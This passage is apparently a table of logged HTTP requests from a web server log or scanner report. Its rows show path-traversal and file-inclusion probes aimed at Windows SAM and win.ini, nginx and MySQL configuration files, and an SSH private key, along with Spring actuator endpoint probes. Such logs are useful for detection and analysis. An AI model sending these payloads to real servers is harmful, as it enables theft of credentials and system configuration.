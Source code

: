 | 1131 |                     1 | GET /windows\x5Csystem32\x5Cconfig\x5CSAM HTTP/1.1                                                                   |
| 1132 |                     1 | GET ///////windows\x5Csystem32\x5Cconfig\x5CSAM HTTP/1.1                                                             |
| 1133 |                     1 | GET /////////////windows\x5Csystem32\x5Cconfig\x5CSAM HTTP/1.1                                                       |
| 1134 |                     1 | GET //.//.//.//.//.//./windows\x5Cwin.ini HTTP/1.1                                                                   |
| 1135 |                     1 | GET /api/v1/actuator HTTP/1.1                                                                                        |
| 1136 |                     1 | GET /java/v1/actuator HTTP/1.1                                                                                       |
| 1144 |                     1 | GET /OdinHttpCall1748521181 HTTP/1.1                                                                                 |
| 1156 |                     1 | GET /Odin/http/call1748521181 HTTP/1.1                                                                               |
| 1165 |                     1 | GET /gate/actuator HTTP/1.1                                                                                          |
| 1172 |                     1 | GET /gateway/actuator HTTP/1.1                                                                                       |
| 1173 |                     1 | GET /admin/actuator HTTP/1.1                                                                                         |
| 1174 |                     1 | GET /api/actuator HTTP/1.1                                                                                           |
| 1175 |                     1 | GET /config/actuator HTTP/1.1                                                                                        |
| 1177 |                     1 | GET /?file=../../../../etc/nginx/nginx.conf HTTP/1.1                                                                 |
| 1178 |                     1 | GET /?document=../../../../etc/nginx/nginx.conf HTTP/1.1                                                             |
| 1179 |                     1 | GET /?template=../../../../etc/nginx/nginx.conf HTTP/1.1                                                             |
| 1180 |                     1 | GET /?inc=../../../../etc/nginx/nginx.conf HTTP/1.1                                                                  |
| 1181 |                     1 | GET /?include=../../../../etc/nginx/nginx.conf HTTP/1.1                                                              |
| 1182 |                     1 | GET /?path=../../../../etc/nginx/nginx.conf HTTP/1.1                                                                 |
| 1183 |                     1 | GET /?view=../../../../etc/nginx/nginx.conf HTTP/1.1                                                                 |
| 1184 |                     1 | GET /?content=../../../../etc/nginx/nginx.conf HTTP/1.1                                                              |
| 1185 |                     1 | GET /?module=../../../../etc/nginx/nginx.conf HTTP/1.1                                                               |
| 1186 |                     1 | GET /?load=../../../../home/user/.ssh/id_rsa HTTP/1.1                                                                |
| 1187 |                     1 | GET /?layout=../../../../etc/nginx/nginx.conf HTTP/1.1                                                               |
| 1188 |                     1 | GET /?theme=../../../../etc/nginx/nginx.conf HTTP/1.1                                                                |
| 1189 |                     1 | GET /?lang=../../../../etc/nginx/nginx.conf HTTP/1.1                                                                 |
| 1190 |                     1 | GET /?section=../../../../etc/nginx/nginx.conf HTTP/1.1                                                              |
| 1191 |                     1 | GET /?dir=../../../../etc/nginx/nginx.conf HTTP/1.1                                                                  |
| 1192 |                     1 | GET /?navigation=../../../../etc/nginx/nginx.conf HTTP/1.1                                                           |
| 1193 |                     1 | GET /?source=../../../../etc/nginx/nginx.conf HTTP/1.1                                                               |
| 1194 |                     1 | GET /?folder=../../../../etc/nginx/nginx.conf HTTP/1.1                                                               |
| 1195 |                     1 | GET /?config=../../../../etc/nginx/nginx.conf HTTP/1.1                                                               |
| 1196 |                     1 | GET /?load=../../../../etc/nginx/nginx.conf HTTP/1.1                                                                 |
| 1197 |                     1 | GET /?view=../../../../etc/mysql/my.cnf HTTP/1.1                                                                     |
| 1198 |                     1 | GET /?content=../../../../etc/mysql/my.cnf HTTP/1.1                                                                  |
| 1199 |                     1 | GET /?module=../../../../etc/mysql/my.cnf HTTP/1.1                                                                   |
| 1200 |                     1 | GET /?load=../../../../etc/mysql/my.cnf HTTP/1.1                                                                     |